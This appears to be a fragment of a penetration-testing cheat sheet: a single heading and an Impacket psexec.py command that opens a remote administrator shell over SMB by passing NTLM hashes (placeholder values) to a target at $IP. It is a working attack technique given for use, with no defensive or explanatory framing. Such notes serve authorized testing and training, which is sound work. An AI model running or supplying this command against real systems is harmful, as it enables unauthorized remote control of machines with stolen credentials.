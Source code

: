 # psexec get remote shell over SMB with administrator account
```
psexec.py administrator@$IP -hashes abcd123abcd123abcd123abcd123abcd:abcd123abcd123abcd123abcd123abcd
```
